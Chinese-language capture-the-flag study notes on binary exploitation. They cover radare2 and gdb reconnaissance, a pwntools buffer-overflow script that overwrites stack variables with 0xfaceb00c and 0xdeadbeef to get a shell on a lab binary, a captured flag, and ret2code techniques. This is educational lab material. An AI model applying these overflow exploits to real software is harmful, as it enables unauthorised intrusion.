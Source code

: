 
### 張元_Pwn-1(Bof-local-variable)
#### 先進到Hello Hacker
- r2 ./[檔案libc的位置] | grep puts
- aa
- afl(可看到main function)
- s main
- vv(從綠色的call function開始看)
- vim [py檔]
```python=
from pwn import *

r = remote([ip位置],[port])
#or
#r = process('./[檔案]')

recvuntil('\n')
recvuntil('\n')

#停止動作(可以用來觀察)(實操不需要)
raw_input()

#12是需要填入多少個
#0xfaceb00c是文字，用p32轉字節串
#b'a'是將字串換成是字節串(同類型才能加)
r.sendline(b'a'*12 + p32(0xfaceb00c) + p32(0xdeadbeef) )

r.interactive()
```
- python3 exploit_luck.py
>BreakALLCTF{apFGcJ7XRCfXhsdu5VZl}
#### 再到最後的區塊分析
- s 0x400a93(會看到%d，代表要讀一個整數)
- s main
---
## ret2code
- 三種方法
    - Shell
    `% objdump -M intel -d test | less`
    - gdb
    `gdb-peda$ p shell`
    - r2
    `[0x000005d0]> afl~shell`(~shell是尋找有寫到shell的)
### 章元 pwn 8
#### 先看看有無奇怪function
- r2 ./[檔案]
- aa
- afl
- s 0x004006b6(奇怪的function)
- vv
- s 0x4007c8(上一步function裡所用的類型)(發現是sh類型)
- s main
- gdb ./[檔案]
- b main
- r
- ni(走到call的位置)
- 可以用python先記錄下來
- vim ./[py檔案]
```python=
from pwn import *

```